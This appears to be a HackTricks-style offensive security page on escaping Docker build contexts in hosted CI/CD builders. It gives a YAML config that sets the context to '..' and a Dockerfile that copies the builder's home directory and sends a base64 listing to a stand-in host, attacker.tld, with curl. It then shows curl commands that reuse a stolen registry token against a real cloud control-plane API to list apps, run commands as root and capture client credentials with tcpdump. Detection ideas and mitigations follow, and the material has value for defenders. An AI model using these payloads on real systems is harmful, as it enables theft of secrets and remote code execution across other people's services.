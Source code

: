 # Abusing Docker Build Context in Hosted Builders (Path Traversal, Exfil, and Cloud Pivot)

{{#include ../banners/hacktricks-training.md}}

## TL;DR

If a CI/CD platform or hosted builder lets contributors specify the Docker build context path and Dockerfile path, you can often set the context to a parent directory (e.g., "..") and make host files part of the build context. Then, an attacker-controlled Dockerfile can COPY and exfiltrate secrets found in the builder user’s home (for example, ~/.docker/config.json). Stolen registry tokens may also work against the provider’s control-plane APIs, enabling org-wide RCE.

## Attack surface

Many hosted builder/registry services do roughly this when building user-submitted images:
- Read a repo-level config that includes:
  - build context path (sent to the Docker daemon)
  - Dockerfile path relative to that context
- Copy the indicated build context directory and the Dockerfile to the Docker daemon
- Build the image and run it as a hosted service

If the platform does not canonicalize and restrict the build context, a user can set it to a location outside the repository (path traversal), causing arbitrary host files readable by the build user to become part of the build context and available to COPY in the Dockerfile.

Practical constraints commonly observed:
- The Dockerfile must reside within the chosen context path and its path must be known ahead of time.
- The build user must have read access to files included in the context; special device files can break the copy.

## PoC: Path traversal via Docker build context

Example malicious server config declaring a Dockerfile within the parent directory context:

```yaml
runtime: "container"
build:
  dockerfile: "test/Dockerfile"   # Must reside inside the final context
  dockerBuildPath: ".."           # Path traversal to builder user $HOME
startCommand:
  type: "http"
  configSchema:
    type: "object"
    properties:
      apiKey:
        type: "string"
    required: ["apiKey"]
  exampleConfig:
    apiKey: "sk-example123"
```

Notes:
- Using ".." often resolves to the builder user’s home (e.g., /home/builder), which typically contains sensitive files.
- Place your Dockerfile under the repo’s directory name (e.g., repo "test" → test/Dockerfile) so it remains within the expanded parent context.

## PoC: Dockerfile to ingest and exfiltrate the host context

```dockerfile
FROM alpine
RUN apk add --no-cache curl
RUN mkdir /data
COPY . /data                      # Copies entire build context (now builder’s $HOME)
RUN curl -si https://attacker.tld/?d=$(find /data | base64 -w 0)
```

Targets commonly recovered from $HOME:
- ~/.docker/config.json (registry auths/tokens)
- Other cloud/CLI caches and configs (e.g., ~/.fly, ~/.kube, ~/.aws, ~/.config/*)

Tip: Even with a .dockerignore in the repository, the vulnerable platform-side context selection still governs what gets sent to the daemon. If the platform copies the chosen path to the daemon before evaluating your repo’s .dockerignore, host files may still be exposed.

## Cloud pivot with overprivileged tokens (example: Fly.io Machines API)

Some platforms issue a single bearer token usable for both the container registry and the control-plane API. If you exfiltrate a registry token, try it against the provider API.

Example API calls against Fly.io Machines API using the stolen token from ~/.docker/config.json:

Enumerate apps in an org:
```bash
curl -H "Authorization: Bearer fm2_..." \
  "https://api.machines.dev/v1/apps?org_slug=smithery"
```

Run a command as root inside any machine of an app:
```bash
curl -s -X POST -H "Authorization: Bearer fm2_..." \
  "https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
  --data '{"cmd":"","command":["id"],"container":"","stdin":"","timeout":5}'
```

Outcome: org-wide remote code execution across all hosted apps where the token holds sufficient privileges.

## Secret theft from compromised hosted services

With exec/RCE on hosted servers, you can harvest client-supplied secrets (API keys, tokens) or mount prompt-injection attacks. Example: install tcpdump and capture HTTP traffic on port 8080 to extract inbound credentials.

```bash
# Install tcpdump inside the machine
curl -s -X POST -H "Authorization: Bearer fm2_..." \
  "https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
  --data '{"cmd":"apk add tcpdump","command":[],"container":"","stdin":"","timeout":5}'

# Capture traffic
curl -s -X POST -H "Authorization: Bearer fm2_..." \
  "https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
  --data '{"cmd":"tcpdump -i eth0 -w /tmp/log tcp port 8080","command":[],"container":"","stdin":"","timeout":5}'
```

Captured requests often contain client credentials in headers, bodies, or query params.

## Detection ideas

- Flag suspicious build contexts ("..", absolute paths, or paths escaping the repo root).
- Build logs showing COPY of non-repo paths or network egress during build (curl, wget) from Dockerfile RUN.
- Control-plane audit anomalies (e.g., spikes in exec calls, package installs like apk add tcpdump).
- Egress monitoring from builder hosts and hosted servers.

## Mitigations

- Canonicalize and constrain build contexts to the repository root (disallow ".." and absolute paths). Allow-list subpaths only.
- Mount a minimal, read-only build context; run builds in ephemeral, sandboxed builders with least-privilege.
- Separate credentials and scope them narrowly (registry vs control-plane). Prefer short-lived tokens and automatic rotation.
- Restrict egress from build steps and from hosted servers; block unsolid outbound exfiltration.
- Prefer OAuth with narrow scopes and short lifetimes for client-to-server authentication, reducing blast radius.

## References

- [Breaking MCP Server Hosting: Build-Context Path Traversal to Org-wide RCE and Secret Theft](https://blog.gitguardian.com/breaking-mcp-server-hosting/)
- [Fly.io Machines API](https://fly.io/docs/machines/api/)

{{#include ../banners/hacktricks-training.md}}
